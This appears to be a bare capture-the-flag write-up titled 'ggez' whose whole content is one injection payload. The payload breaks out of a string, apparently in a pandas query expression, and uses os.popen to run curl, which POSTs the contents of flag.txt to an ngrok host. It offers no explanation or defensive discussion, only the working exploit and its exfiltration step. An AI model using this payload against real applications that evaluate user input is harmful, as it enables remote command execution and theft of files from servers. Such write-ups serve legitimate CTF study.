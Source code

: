 # Writeup - ggez
`' and @pd.io.common.os.popen('curl -X POST -d "flag=$(cat flag.txt)" -ipv4 https://a56e-111-95-107-251.ngrok-free.app') `
